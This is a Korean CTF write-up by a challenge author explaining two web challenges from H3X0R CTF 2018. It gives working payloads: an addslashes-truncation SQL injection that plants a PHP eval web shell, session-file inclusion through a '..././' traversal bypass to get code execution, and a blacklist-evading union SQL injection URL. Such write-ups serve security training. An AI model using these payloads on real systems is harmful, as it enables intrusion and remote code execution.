 # H3X0R CTF 2018 - Web Write-up

```
H3X0R CTF 2018 - goodaegi board, sqlgame revenge
Written by Siwoo Mun (munsiwoo)
```

## goodaegi board (490pts) - solver (1)

goodaegi board는 sql injection과 lfi, php 세션을 이용한 rce문제다.  
의도한 풀이는 sql injection으로 php 코드를 username에 넣어주고 가입한 계정으로 로그인해서  
lfi로 해당 계정의 세션을 포함시켜 rce로 flag.php를 읽어오는걸 의도했다.
  
자세한 풀이는 아래를 참고하자.  
  
--------------------------------
### SQL Injection

``classes/user.class.php`` 에 있는 user_join function에서 sql injection이 발생한다.

```php
public function user_join($user) {
	$user = array_map('addslashes', $user); // anti sql injection
	$nickname = substr($user['nickname'], 0, 100); // anti sql truncate attack
	$username = substr($user['username'], 0, 100); // anti sql truncate attack
	$password = sha1(md5($user['password']));

	if($message = $this->check_names($nickname, $username)) { // call name check function
		return $message;
	}

	$query = "insert into users values ('{$nickname}', '{$username}', '{$password}');";
	$this->query($query) or die($query);

	return false;
}
```

위 소스의 두 번째 줄부터 네 번째 줄을 보면 sql injection방지를 위해 addslashes를 거치고
그 다음 줄에서 sql truncate attack을 방지한다며 문자열을 100자로 자르고 있다.  
  
addslashes를 거치기 때문에 이 코드가 안전하다고 생각할 수 있겠지만 아래와 같이 공격이 가능하다.  

```
nickname : aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\
username : ,1,1)#
```

공격이 가능한 이유는 'a' * 99 뒤에 single quote가 붙었을 때 addslashes를 거치면서 앞에 backslashes(\)가 붙고  
'a' * 99 + backslashes + single quote가 되면서 single quote가 잘리게 된다.  
  
즉 query는 아래와 같은 꼴이 된다.  
  
``insert into users values ('aaaaaaaa\', '<inject point>', '<hash>');``

이제 여기서 username에 php 코드를 넣어주고 가입하면 된다.  

```
nickname : aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\
username : ,1,1),(1,0x3c3f206576616c28245f4745545b785d293b3f3e,sha1(md5(0x61)))#
```
> Login  
username : ``<? eval($_GET[x]);?>``  
password : ``a``  

---------------------------------------------
### PHP SESSION to RCE

session to rce의 간단한 예시를 들어보면  
php에서 로그인을 구현할 때 로그인에 성공하면 보통 아래와 같이 세션을 처리한다.

```php
<?php
session_start();
... (생략)
if(isset($fetch['username'])) { // 유저가 존재한다면
	$_SESSION['username'] = $fetch['username']; // 세션 할당
}
```

만약 여기서 ``$fetch['username']`` 변수에 ``<?php phpinfo(); ?>`` 가 들어가면 어떻게 될까?  
세션 파일에 들어가는 내용이 ``username|s:19:"<?php phpinfo(); ?>";`` 이렇게 될 것이다.  
우분투 기준 PHP 세션은 기본적으로 ``/var/lib/php/sessions/`` 에 저장되며 어느 계정이든 접근이 가능한 디렉토리다.  
또한 저장되는 세션 파일명도 일정한 규칙이 있어서 알아낼 수 있기 때문에 PHP코드가 포함된 세션을 inclusion한다면 RCE가 가능하다.  

* 세션 파일명 : ``sess_[random_string]`` 여기서 ``[random_string]``은 클라이언트가 가지고 있는 PHPSESSID 값이다.  
ex) ``PHPSESSID=fqs54b8ies3uhuhlttlb3lq3d0;`` => ``sess_fqs54b8ies3uhuhlttlb3lq3d0``
  
단, 회원 가입에서 ``<, >`` 를 막아놨기 때문에 위에서 설명한 sql injection을 활용해서 넣어줘야 한다.

--------------------------------------------
### LFI (session inclusion)
이제 세션에 php 코드를 넣는데 성공했다.  
lfi는 ``?p=home.html`` 여기 p 파라미터에서 발생하는데 p 파라미터는 ``secure_page`` 함수를 거친다.  
해당 함수는 ``config/function.php`` 에서 확인할 수 있다.

```php
function secure_page($page) { // anti hack
	$page = strtolower(trim($page)); // 안봐도 됨
	$page = str_replace(chr(0), '', $page); // 안봐도 됨
	$page = str_replace('../', '', $page); // '../' 지우기
	if(substr($page, -4, 4) == 'html') { // 확장자가 html인지 체크
		return $page;
	} 
	die('403 forbidden.');
}
```
우선 4 번째 줄을 보면 ``../`` 를 없애고 있다, ``..././`` 이렇게 바꿔주면 가운데 ``../``가 없어지면서 ``../`` 가 된다.  
그 다음, 세션은 사용자가 이름을 임의로 바꿀 수 있기 때문에 세션의 맨 뒷자리 4자를 ``html``로 바꾸면 된다.  
ex) ``PHPSESSID=fqs54b8ies3uhuhlttlb3lq3d0html``  
  
``?p=..././..././..././..././..././var/lib/php/sessions/fqs54b8ies3uhuhlttlb3lq3d0html``  
  
rce가 성공적으로 되는걸 확인했다면, flag.php를 읽으면 된다.  
  
``?p=..././..././..././..././..././var/lib/php/sessions/fqs54b8ies3uhuhlttlb3lq3d0html&x=echo file_get_contents('flag.php');``

## sqlgame revenge (480pts) - solver (2)

노말한 sql injection challenge다.

```php
<?php
error_reporting(0);
require_once 'config.php';

/*************************

 made by munsiwoo
 sqlgame-revenge

 sqlgame_revenge table structure :
 create table sqlgame_revenge (
	 username varchar(100),
	 password varchar(100)
 ) default charset=utf8;

**************************/

isset($_GET['username'], $_GET['password']) or view_source();

$conn = mysqli_connect('', __USER__, __PASS__, 'hahahoho');
$conn or die('sql server down.');

$username = substr($_GET['username'], 0, 400);
$password = substr($_GET['password'], 0, 400);

$filter  = "'|\"|x|b|y|substr|left|right|char|hex|md|sha|compress|mysql|blog";
$filter .= "|=|like|regexp|if|case|sleep|benchmark|munsiwoo|user|where|strcmp";
$filter .= "|column|table|load|file|view|sys|global|rand|innodb|space|mid|name";

(!preg_match("/{$filter}/is", $username.chr(32).$password)) or die('403 forbidden.');
(!preg_match("/password/i", $username)) or die('403 forbidden.');
(!(substr_count($username.$password, '(') > 25)) or die('403 forbidden.');

$query = "select * from sqlgame_revenge where username='{$username}' and password='{$password}'";
$query = mysqli_query($conn, $query) or die('syntax error.');
$fetch = mysqli_fetch_assoc($query) or die('user not found.');
$fetch = array_map('strtolower', $fetch);

(strtolower($fetch['username']) == 'munsiwoo') or die('who are you?');
(strtolower($fetch['password']) ==  $password) or die('pw incorrect!');

show_flag();

```

payload
```
http://18.216.25.52/7b9b9b1e52a8f5fcff220094034b9390/?username=\&password=||0%20union%20select%20concat(insert(encode(950358551,464374247),1,6,lpad(0,0,0)),insert(insert(encode(1366430893,867605427),1,4,lpad(0,0,0)),3,6,lpad(0,0,0)),insert(insert(insert(encode(546815368,1734964794),1,4,lpad(0,0,0)),1,1,lpad(0,0,0)),4,1,lpad(0,0,0))),(select%20insert(insert(info,1,63,lpad(0,0,0)),367,1,lpad(0,0,0))%20from%20information_schema.processlist%20limit%200,1)%23
```
